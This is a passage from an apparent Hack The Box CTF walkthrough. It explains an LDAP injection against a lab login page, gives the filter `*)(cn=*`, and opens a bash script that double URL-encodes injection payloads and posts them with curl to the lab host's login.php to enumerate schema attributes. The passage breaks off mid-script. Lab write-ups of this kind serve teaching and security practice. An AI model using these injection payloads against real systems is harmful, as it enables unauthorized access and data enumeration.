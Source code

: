 ![e1e880c7.png](/assets/images/posts/ctf-htb-walkthrough/e1e880c7.png)
</a>

Armed with this insight and using a LDAP query such as `*)(cn=*`, I wrote a script to help me enumerate the valid attributes from the schema.

<div class="filename"><span>check.sh</span></div>

```bash
#!/bin/bash

HOST=10.10.10.122
LIST=$1

function urlencode() {
  echo -n "$1" \
  | xxd -p \
  | tr -d '\n' \
  | sed -r 's/(..)/%\1/g'
}

function send_payload() {
  local query="*)(XXX=*"
  local payload="${query/XXX/$1}"
  local payload="$(urlencode $payload)"
  local payload="$(urlencode $payload)"

  curl \
    -s \
    -d "inputUsername=$payload" \
    -d "inputOTP=123456" \
    http://$HOST/login.php \
```